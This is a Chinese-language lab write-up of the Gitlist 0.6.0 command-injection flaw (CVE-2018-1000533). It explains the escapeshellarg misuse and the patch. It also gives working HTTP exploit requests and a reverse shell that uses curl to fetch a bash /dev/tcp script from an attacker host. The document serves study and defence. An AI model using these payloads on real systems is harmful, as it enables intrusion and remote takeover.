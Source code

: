 # Gitlist 0.6.0 远程命令执行漏洞 CVE-2018-1000533

## 漏洞描述

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本及以前，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞复现

参考链接：[Vulhub](https://github.com/vulhub/vulhub/tree/master/gitlist/CVE-2018-1000533)

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：

![image-20220223214440698](./images/202202232144734.png)

导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![image-20220223214451255](./images/202202232144303.png)

如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by or.

当然，gitlist的开发者用了另一种修复方案：

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

![image-20220223214500106](./images/202202232145144.png)

所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

![image-20220223213910149](./images/202202232139250.png)

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：

![image-20220223213813298](./images/202202232138346.png)

反弹shell可以分为两步，共发送两个数据包：

- 第一个数据包，使用 curl 先将 shell.txt 下载到 /tmp 目录下，改名为 shell.sh；
- 第二个数据包，执行 shell.sh。

在 vps 上新建 test.txt 文件并启动 http 服务：

```
# cat test.txt 
bash -i >& /dev/tcp/your-ip/9999 0>&1
```

```
# python3 -m http.server 8888
```

发送第一个数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=curl http://your-ip:8888/test.txt -o /tmp/test.sh;
```

发送第二个数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=/bin/bash /tmp/test.sh;
```

成功接收反弹shell：

![image-20230725162429368](images/image-20230725162429368.png)